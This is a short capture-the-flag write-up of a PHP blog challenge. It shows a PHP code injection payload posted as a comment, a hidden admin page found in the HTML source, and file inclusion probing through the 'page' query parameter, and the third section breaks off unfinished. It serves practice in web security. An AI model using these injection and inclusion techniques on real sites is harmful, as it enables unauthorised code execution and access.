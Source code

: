 ```yaml
---
date: "2019-05-12"
title: "Cody's First Blog"
category: "CTF"
---
```


CTF time !!
Let's find flags.
![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)

### PHP File Inclusion Vulnerability ~ 🚩(1/3)
Simply by giving the input text (under 'Add comment' text area)
```php
<?php phpinfo(); ?>
```
Then we are able to do remote php code execution.
<br />
Flag captured !!

### PHP File Inclusion Vulnerability ~ 🚩(2/3)
Let's inspect the source HTML file
```html
<!doctype html>
<html>
	<head>
		<title>Home -- Cody's First Blog</title>
	</head>
	<body>
		<h1>Home</h1>
		<p>Welcome to my blog!  I'm excited to share my thoughts with the world.  I have many important and controversial positions, which I hope to get across here.</p>
    <h2>September 1, 2018 -- First</h2>
    <p>First post!  I built this blog engine around one basic concept: PHP doesn't need a template language because it <i>is</i> a template language.  This server can't talk to the outside world and nobody but me can upload files, so there's no risk in just using include().</p>
    <p>Stick around for a while and comment as much as you want; all thoughts are welcome!</p>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
	</body>
</html>
```
There is a commented line, which tells us a potential open API endpoint.
> What if we send weird 'page' query server ? ex: http://35.196.135.216/ef0493ce62/?page=page

Then we got
```
Notice: Undefined variable: title in /app/index.php on line 30

Warning: include(page.php): failed to open stream: No such file or directory in /app/index.php on line 21

Warning: include(): Failed opening 'page.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21
```

Ah ha !! This response is like a gold to attacker.
We just found a file inclusion vulnerability.
Let's try different potential file name combinations like 'admin.inc', 'admin', 'auth', 'inc'....

Under 'admin.inc' query id, clients will be redirected to an admin page showing all pending comments.
<br />
Flag captured !!

### PHP File Inclusion Vulnerability ~ 🚩(3/3)
Capturing...